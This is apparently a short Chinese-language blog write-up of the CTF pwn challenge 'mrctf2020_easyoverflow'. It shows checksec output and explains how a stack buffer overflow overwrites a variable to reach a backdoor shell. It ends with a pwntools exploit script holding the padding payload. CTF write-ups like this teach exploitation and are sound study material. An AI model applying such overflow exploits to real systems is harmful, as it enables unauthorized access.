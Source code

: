 ```yaml
---
title: 'mrctf2020_easyoverflow'
date: 2024-01-13 13:00:00 +0800
categories: [control]
tags: [ctf,pwn]
---
```

![image-20240113121646708](../assets/img/old_imgs/image-20240113121646708.png)

![image-20240113121700354](../assets/img/old_imgs/image-20240113121700354.png)

- 控制栈上参数
- 程序控制流

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_easyoverflow
[*] '/home/bamuwe/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1. 保护全开,考虑利用程序自身的代码

2. 程序中存在后门,理解程序流

   关键在于`check`函数中,只要`a1(v5) == fake_flag`就可以得到`shell`

3. 通过ida可知`v5`在栈上的位置和`fake_flag`的内容

   ![image-20240113122354712](../assets/img/old_imgs/image-20240113122354712.png)

   ![image-20240113122428149](../assets/img/old_imgs/image-20240113122428149.png)

4. 构造`payload`通过填充`v4`的空间溢出到`v5`进而控制`v5`变量的内容

```python
from pwn import *
io = process('./mrctf2020_easyoverflow')
#io = gdb.debug('./mrctf2020_easyoverflow')
payload = b'A'*48+b'n0t_r3@11y_f1@g\x00'
io.sendline(payload)
io.interactive()
```

